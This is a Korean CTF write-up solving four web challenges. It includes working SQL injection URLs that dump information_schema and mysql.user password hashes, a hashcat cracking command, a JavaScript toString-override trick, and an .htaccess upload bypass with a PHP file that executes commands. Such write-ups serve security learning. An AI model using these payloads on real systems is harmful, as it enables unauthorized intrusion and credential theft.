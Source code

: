 ```yaml
---
layout: post
comments: false
categories: CTF
---
```


## Javascript Puzzle

```python
const express = require('express')

const app = express()
const port = 8000

app.get('/', (req, res) => {
    try {
        const username = req.query.username || 'Guest'
        const output = 'Hello ' + username
        res.send(output)
    }
    catch (error) {
        res.sendFile(__dirname + '/flag.txt')
    }
})

app.listen(port, () => {
    console.log(`Server is running at http://localhost:${port}`)
})
```

'Hello ' + username 연산 전에 username에 대해서 toString을 통한 형변환이 일어난다. 따라서 username.toString을 overwrite해주면 에러가 발생합니다.

```
username[toString]=1
```

## Limited 1

```python
@app.route('/query')
def query():
    try:
        price = float(request.args.get('price') or '0.00')
    except:
        price = 0.0

    price_op = str(request.args.get('price_op') or '>')
    if not re.match(r' ?(=|<|<=|<>|>=|>) ?', price_op):
        return 'price_op must be one of =, <, <=, <>, >=, or > (with an optional space on either side)', 400

    # allow for at most one space on either side
    if len(price_op) > 4:
        return 'price_op too long', 400

    # I'm pretty sure the LIMIT clause cannot be used for an injection
    # with MySQL 9.x
    #
    # This attack works in v5.5 but not later versions
    # https://lightless.me/archives/111.html
    limit = str(request.args.get('limit') or '1')

    query = f"""SELECT /*{FLAG1}*/category, name, price, description FROM Menu WHERE price {price_op} {price} ORDER BY 1 LIMIT {limit}"""
    print('query:', query)

    if ';' in query:
        return 'Sorry, multiple statements are not allowed', 400

    try:
        cur = mysql.connection.cursor()
        cur.execute(query)
        records = cur.fetchall()
        column_names = [desc[0] for desc in cur.description]
        cur.close()
    except Exception as e:
        return str(e), 400

    result = [dict(zip(column_names, row)) for row in records]
    return jsonify(result)

```

sql query를 실행할 때 price_op에 `>/*`, limit 앞부분을 `*/` 로 설정하면 쉽게 sql injection이 가능합니다.

`information_schema.processlist` 를 통해 어떤 쿼리를 실행했는지 확인하여 query 내부의 주석을 볼 수 있습니다.

```
/query?price=11&price_op=>/*&limit=*/100 UNION SELECT 1,2,3,INFO FROM information_schema.processlist
```

## Limited 2

Limited 1과 같은 소스코드의 문제입니다. Flag로 시작하는 table에 있는 값을 보면 되는 문제입니다.

```
/query?price=0&price_op=>/*&limit=*/1 UNION SELECT 1,2,3,table_name FROM information_schema.tables

/query?price=5&price_op=>/*&limit=*/100 UNION SELECT 1,2,3,column_name FROM information_schema.columns WHERE table_name='Flag_843423739'

/query?price=0&price_op=>/*&limit=*/1 UNION SELECT 1,2,3,value FROM Flag_843423739
```

## Limited 3

```sql
-- This password is 13 characters and can be found in rockyou.
-- It is the flag for one of the challenges using this source
-- BUT it needs to be wrapped by wctf{} before submitting.
create user 'flag' identified by 'REDACTED_FLAG';
```

해당 문제의 Mysql은 password를 저장할 때 caching_sha2_password을 사용합니다. 비밀번호가 rockyou에 있는 13글자라는 정보를 통해 bruteforce를 진행했습니다.

```sql
UNION SELECT 1,2,3,
  CONCAT('$mysql',
    LEFT(authentication_string, 6),
    '*',
    INSERT(HEX(SUBSTR(authentication_string, 8)), 41, 0, '*')
  ) AS hash
FROM mysql.user
WHERE plugin = 'caching_sha2_password'
  AND authentication_string NOT LIKE '%INVALIDSALTANDPASSWORD%'
  AND user = 'flag'
```

우선 hash 값을 알기 위해서 위의 쿼리를 사용했습니다.

```
$mysql$A$005*766E4F5E5D03106A4C027233476433535C4B5E20*3865726464724C6E39747276424F484B6B63742E37307966474C58742F4466634E58767371592F70325044
```

위의 값을 토대로 hashcat의 7401 옵션을 이용해서(`-m 7401` = MySQL 8+ `caching_sha2_password` 해시) flag를 구할 수 있었습니다.

```
hashcat -m 7401 -a 0 hashes rockyou-13.txt
```

## **Art Contest**

```php
if (isset($_FILES['fileToUpload'])) {
    $target_file = basename($_FILES["fileToUpload"]["name"]);
    $session_id = session_id();
    $target_dir = "/var/www/html/uploads/$session_id/";
    $target_file_path = $target_dir . $target_file;
    $uploadOk = 1;
    $lastDotPosition = strrpos($target_file, '.');

    // Check if file already exists
    if (file_exists($target_file_path)) {
        echo "Sorry, file already exists.\n";
        $uploadOk = 0;
    }
    
    // Check file size
    if ($_FILES["fileToUpload"]["size"] > 50000) {
        echo "Sorry, your file is too large.\n";
        $uploadOk = 0;
    }

    // If the file contains no dot, evaluate just the filename
    if ($lastDotPosition == false) {
        $filename = substr($target_file, 0, $lastDotPosition);
        $extension = '';
    } else {
        $filename = substr($target_file, 0, $lastDotPosition);
        $extension = substr($target_file, $lastDotPosition + 1);
    }

    // Ensure that the extension is a txt file
    if ($extension !== '' && $extension !== 'txt') {
        echo "Sorry, only .txt extensions are allowed.\n";
        $uploadOk = 0;
    }
    
    if (!(preg_match('/^[a-f0-9]{32}$/', $session_id))) {
    	echo "Sorry, that is not a valid session ID.\n";
        $uploadOk = 0;
    }

    // Check if $uploadOk is set to 0 by an error
    if ($uploadOk == 0) {
        echo "Sorry, your file was not uploaded.\n";
    } else {
        // If everything is ok, try to upload the file
        if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file_path)) {
            echo "The file " . htmlspecialchars(basename($_FILES["fileToUpload"]["name"])) . " has been uploaded.";
        } else {
            echo "Sorry, there was an error uploading your file.";
        }
    }

    $old_path = getcwd();
    chdir($target_dir);
    // make unreadable - the proper way
    shell_exec('chmod -- 000 *');
    chdir($old_path);
}
```

php를 통해 만든 파일을 업로드할 수 있는 사이트입니다. `../` 를 삽입할 수 있는 방법이 없을까 고민했었지만 불가능했습니다. 

문제에서는 업로드 이후 `chmod -- 000 *` 명령어를 통해서 업로드한 파일들을 읽을 수 없도록 하는데 `*` 를 사용하게 되면 파일명이 `.` 으로 시작하는 파일들에 대한 처리가 이루어지지 않습니다.

그리고 `if ($lastDotPosition == false)`  조건문을 사용하는 부분이 있는데 dot의 위치가 제일 처음이라면 `$lastDotPosition` 이 0이 되어 `$lastDotPosition == false` 가 true가 됩니다. 

따라서 `.htaccess`  파일을 사용해 txt 파일을 php 파일처럼 사용하게 할 수 있어 flag를 읽어올 수 있습니다.

- .htaccess

```
AddType application/x-httpd-php .txt
```

- .getflag.txt

```php
<?php
header("Content-Type: text/plain");

echo "Path: " . realpath('../../get_flag') . "\n";
echo "Exists: " . (file_exists('../../get_flag') ? 'Yes' : 'No') . "\n";
echo "Output:\n";

$output = shell_exec('cd /var/www/html && ./get_flag 2>&1');

echo $output;
```